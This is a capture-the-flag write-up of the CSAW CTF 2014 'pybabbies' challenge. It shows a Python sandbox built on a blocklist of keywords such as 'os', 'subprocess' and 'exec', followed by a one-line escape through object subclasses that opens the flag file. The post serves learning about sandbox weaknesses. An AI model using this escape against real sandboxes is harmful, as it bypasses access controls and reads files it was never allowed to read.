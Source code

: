 title: CSAW CTF 2014 -- Exploitation 200 pybabbies
tags:
  - CTF
  - CSAW
  - Pwnable
  - Python
categories:
  - write-ups
author: bruce30262
date: 2014-09-25 06:32:00
---
[CSAW CTF 2014](https://ctf.isis.poly.edu/) is the second CTF contest I've attended ( the first one was the [HITCON CTF 2014](http://ctf2014.hitcon.org/dashboard.html) ) . Since this is the first time **I've actually solved something** in the contest, I decide to post my first own writeup .
<!-- more -->

I've solved 4 challenges in the contest : **Trivia 10 -- We don't know either** , **Exploitation 100 -- bo** , **Exploitation 200 -- pybabbies** and **Expoitation 400 -- saturn**. **We don't know either** & **bo** are easy, so I won't post their writeups. This writeup is for the **Exploitation 200 -- pybabbies**.

The challenge gave us a python script call **pyshell.py**. After we take a good look at it, we'll know that this is a self-made python shell.

```python pyshell.py
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

this python shell allow us to send & execute a python command. But unlike the normal one, this python shell banned some strings such as `import`, `os`, `sys`......etc. Moreover, **it delete almost all the reference to an object**, except `raw_input` & `print`.

To put it short, **we can't call any function except** `raw_input` & `print`, **and we can't use** `import`, `os`, `sys`...., **either**. The goal is to print the flag, so we can either use `os.system("cat flag")` or use `f = open("flag", "r").read()` and print it out. But now since it banned us to use those command, we'll have to find a new way to get the flag.

After doing some research on the internet, I found this [link](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/), which lead us to the right direction. Although in script they delete the reference to an object, we can still use `().__class__.__bases__[0].__subclasses__()` to get the object directly. By using the method mentioned in the blog, I successfully get the `file` object, which give me the ability to open a file and read it.

So here is the exploitation:
1.  First, we use `().__class__.__bases__[0].__subclasses__()[40]` as the `file` object to read the flag into a variable
2.  Simply print out the variable to get the flag
    
we'll have to guess the filename of the flag, which is "key", so the actual progress will be like this:

```
Welcome to my Python sandbox! Enter commands below!
>>> a = ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
>>> print(a)
flag{definitely_not_intro_python}

>>>
```


reference: [Escaping Python Sandboxes](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)